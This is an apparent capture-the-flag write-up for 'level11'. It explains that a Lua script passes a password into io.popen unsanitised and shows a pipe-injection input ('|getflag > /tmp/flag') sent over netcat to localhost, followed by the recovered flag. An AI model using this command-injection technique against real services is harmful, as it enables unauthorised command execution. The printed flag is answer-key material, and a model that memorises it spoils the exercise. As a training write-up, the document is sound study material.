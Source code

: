 # level11

Here, we only have a lua script that asks for a password.
But it does something interesting: `prog = io.popen("echo "..pass.." | sha1sum", "r")`.

To connect to the port used by the script: `nc 127.0.0.1 5151`

BTW, the password is `| printf 'NotSoEasy'` (it only gets you `Gz you dumb*`...).

To get the flag, type as password: `|getflag > /tmp/flag` then `cat /tmp/flag` ;)

-> `fa6v5ateaw21peobuub8ipe6s`
